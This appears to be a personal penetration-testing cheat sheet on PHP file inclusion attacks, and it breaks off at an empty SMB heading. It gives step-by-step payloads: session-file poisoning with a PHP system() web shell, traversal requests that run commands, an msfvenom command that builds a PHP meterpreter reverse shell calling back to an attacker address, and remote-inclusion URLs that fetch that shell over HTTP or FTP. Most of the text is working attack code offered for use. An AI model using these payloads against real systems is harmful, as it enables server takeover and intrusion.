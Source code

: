 when we include our malicius file or payload in lfi point ,the cookie stores in the below mentioned path. WE can verify by typing
any random string in lfi parameter and then view the contents of session cookie by including /var/lib/php/sessions/sess_COOKIEVALUE in lfi
if our random string is there then we can pollute the cookie. We can pollute the lfi parameter with <?php system($_GET['cmd']); ?>
Now simply include the cookie file path /var/lib/php/sessions/sess_COOKIEID&cmd=ourcommands.
we can execute commands at system level now. The php get shell must always be included whenever executing a command becuase cookie value keeps getting changed

we have to pollute the cookie evrytime after executing  a ingle command becuse it overwrites it

The payload will be 

> ?param=<?php system($_GET['cmd']); ?>

Now execute the command

> ?param=../../../../../var/lib/php/sessions/sess_COOKIEID&cmd=id


Similar to server log files, PHP saves user sessions on disk. This path is dictated by the session.save_path configuration variable, which is empty by default.

in linux php sessions are stored in /var/lib/php/sessions/ and in windows c:\windows\temp

The name of the session file can be identified from the PHPSESSID cookie. For example, if the PHPSESSID cookie is set to el4ukv0kqbvoirg7nkp4dncpk3 then it's location on disk would be /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3.




### RFI

#### http rfi

1. Use the following shell in rfi and host a server in the directory

we use .txt format because sometimes server executes php on our machine isntead of victim

> msfvenom -p php/meterpreter/reverse_tcp LHOST=10.4.30.255 LPORT=6969 -f raw > shell.txt

2. Now go to the url and include your webserver and file alongside it

> http://site.com?example.php=http://10.4.30.255:80/shell.txt

3. Listen on msf handler with the php/meterpreter/reverse_tcp set

we can also include a normal shell instead of a msf exploit

#### ftp rfi

1. start a ftp server where you shell is

python3 -m pyftpdlib -p21

2. in injection point include

>  ?param=ftp://ipaddress/shell.php&cmdid

#### smb rfi
